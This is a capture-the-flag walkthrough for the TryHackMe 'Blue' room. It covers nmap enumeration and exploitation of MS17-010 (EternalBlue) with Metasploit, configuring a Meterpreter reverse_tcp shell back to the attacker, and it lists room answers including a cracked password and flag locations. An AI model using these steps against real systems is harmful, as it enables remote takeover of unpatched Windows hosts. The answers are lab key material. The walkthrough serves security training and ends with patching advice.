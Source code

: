 # TryHackMe: Blue – Walkthrough

![Banner](images/win7-wallpaper-small.png)

Room Link: https://tryhackme.com/room/blueDifficulty: Beginner / IntermediateFocus: Exploiting MS17-010 (EternalBlue) on a Windows VMTools:

use : Kali Linux (or any pentest distro)

Tools : Nmap, Metasploit Framework, SMB enumeration scripts


# Table of Contents

1: Overview & Setup

2: Network Scanning & Enumeration

3: Vulnerability Verification (MS17-010)

4: Exploitation with Metasploit

5: Gaining a Meterpreter Shell

6: Capturing Flags & Room Questions

7: Mitigation & Hardening Tips

## 1. Overview & Setup

Join the VPN

<pre> sudo openvpn --config ~/Downloads/tryhackme.ovpn </pre>

![banner](images/1.png)

### Confirm connectivity

# Check your tun0 interface
<pre> ifconfig </pre>  

![banner](images/3.png)

# Replace with the room's gateway to verify
<pre> ping 10.10.10.10 </pre> 

Note the target IP (you’ll see it in the room’s instructions).

In this walkthrough we'll call it <TARGET_IP>

## 2. Network Scanning & Enumeration

### 2.1 Full TCP Port Scan

<pre> nmap -p- -T4 -oN nmap/full-tcp-portscan.txt <TARGET_IP> </pre>

![Banner](images/2.png)

Finds all open TCP ports (e.g., 135, 139, 445, 3389)

### 2.2 Service & Version Detection

<pre> nmap -sC -sV <TARGET_IP> </pre>

-sC-runs default scripts

-sV-detects versions

### 2.3 SMB-Specific Enumeration

<pre> nmap -sC -sV --script vlun <TARGET_IP> </pre>

--script vuln-runs Nmap scripts to detect known vulnerabilities on the target — no exploitation, just scanning.

![Banner](images/4.png)

## 3. Vulnerability Verification (MS17-010)

Check the nmap/smb-enum.txt output. You should see:

| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE-2017-0143

If State: VULNERABLE appears, proceed.

## 4. Exploitation with Metasploit

Launch Metasploit

<pre> msfconsole </pre>

![Banner](images/5.png)

Search for EternalBlue module

<pre> search ms17_010 </pre>

![Banner](images/6.png)

Select the exploit

![Banner](images/7.png)

use exploit/windows/smb/ms17_010_eternalblue

### Configure options

![Banner](images/8.png)

set RHOSTS <TARGET_IP>
set LHOST <YOUR_TUN0_IP>
set LPORT 4444           # or any free port
set PAYLOAD windows/x64/meterpreter/reverse_tcp

Optional – check targets

show targets

Run the exploit

### exploit

![Banner](images/9.png)

You should see a meterpreter session open.

## 5. Gaining a Meterpreter Shell

Once the exploit succeeds:

![Banner](images/10.png)

[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.42:49155) at 2025-07-03 19:30:00 +0530

Inside Meterpreter:

meterpreter > pwd

It shows where you are

## 6. Capturing Flags & Room Questions

How many ports are open with a port number under 1000?

ans-3

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

ans-ms17-010

Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

ans-exploit/windows/smb/ms17_010_eternalblue

Show options and set the one required value. What is the name of this value? (All caps for submission)

ans-RHOSTS

 What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 

 ans-post/multi/manage/shell_to_meterpreter

 Select this (use MODULE_PATH). Show options, what option are we required to change?

 ans-SESSION

Copy this password hash to a file and research how to crack it. What is the cracked password?

ans-alqfna22

Flag1? This flag can be found at the system root. 

![Banner](images/11.png)

Flag2? This flag can be found at the location where passwords are stored within Windows.

![Banner](images/12.png)

flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

![Banner](images/13.png)

## 8. Mitigation & Hardening Tips

Patch Management: Apply MS17-010 patch (KB4013389)

SMBv1: Disable if not required

Network Segmentation: Limit SMB traffic

Endpoint Monitoring: Alert on unusual SMB behavior


🎉 Congrats! You’ve fully exploited and documented the Blue machine.Feel free to open an issue or PR if you find anything to improve!
